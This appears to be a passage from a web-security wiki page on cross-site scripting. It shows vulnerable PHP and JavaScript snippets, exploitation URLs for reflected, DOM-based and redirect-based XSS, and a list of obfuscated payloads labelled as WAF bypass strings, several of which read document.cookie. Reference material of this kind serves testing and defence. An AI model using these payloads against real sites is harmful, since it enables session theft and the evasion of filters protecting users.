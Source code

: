Exploitation:
/?xss=500); alert(document.cookie);//

##### [[_content/dictionary#D|DOM]]-based [[_content/dictionary#X|XSS]]¶
Example:
<script> ... eval($\_GET\[xss\]); ... </script>

Exploitation:
/?xss=document.cookie

##### [[_content/dictionary#X|XSS]] via request Redirection¶
Vulnerable code:
...
header('Location: '.$_GET['param']);
...

As well as:
...
header('Refresh: 0; [[_content/dictionary#U|URL]]='.$_GET['param']);
...

This request will not pass through the [[_content/dictionary#W|WAF]]:
/?param=<javascript:alert(document.cookie>)

This request will pass through the [[_content/dictionary#W|WAF]] and an [[_content/dictionary#X|XSS]] attack will be conducted in certain browsers:
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

#### [[_content/dictionary#W|WAF]] [[_content/dictionary#B|ByPass]] Strings for [[_content/dictionary#X|XSS]]¶

- <Img src = x onerror = "javascript: window.onerror = alert; throw [[_content/dictionary#X|XSS]]">
- <Video> <source onerror = "javascript: alert ([[_content/dictionary#X|XSS]])">
- <Input value = "[[_content/dictionary#X|XSS]]" type = text>
- <applet code="javascript:confirm(document.cookie);">
- <isindex x="javascript:" onmouseover="alert([[_content/dictionary#X|XSS]])">
- "></[[_content/dictionary#S|SCRIPT]]>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
- "><img src="x:x" onerror="alert([[_content/dictionary#X|XSS]])">
- "><iframe src="javascript:alert([[_content/dictionary#X|XSS]])">
- <object data="javascript:alert([[_content/dictionary#X|XSS]])">
- <isindex type=image src=1 onerror=alert([[_content/dictionary#X|XSS]])>
- <img src=x:alert(alt) onerror=eval(src) alt=0>
- <img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
- <iframe/src="data:text/html,<svg onload=alert(1)>">
- <meta content="&[[_content/dictionary#N|NewLine]]; 1 &NewLine;; [[_content/dictionary#J|JAVASCRIPT]]&colon; alert(1)" http-equiv="refresh"/>
- <svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
- <meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
- <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
- <form><a href="javascript:\u0061lert(1)">X
- </script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>
- <style>//*{x:expression(alert(/xss/))}//<style></style>
